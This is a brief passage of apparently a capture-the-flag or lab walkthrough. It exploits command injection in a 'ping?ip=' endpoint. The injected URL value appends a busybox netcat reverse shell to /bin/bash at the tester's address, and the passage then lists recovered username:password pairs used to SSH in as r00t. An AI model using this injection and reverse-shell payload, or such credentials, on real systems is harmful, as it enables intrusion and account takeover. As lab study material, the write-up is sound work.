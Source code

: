 With command injection possible, got reverse shell as `www`
```
http://10.10.83.245:8081/ping?ip=10.11.103.8;`busybox nc 10.11.103.8 4245 -e /bin/bash`
```

Found a database file containing credentials 
![[Pasted image 20240822160247.png]]
![[Pasted image 20240822160258.png]]
![[Pasted image 20240822160316.png]]

`admin:mrsheafy`
`r00t:n100906`

With r00t's credentials, SSHd as r00t

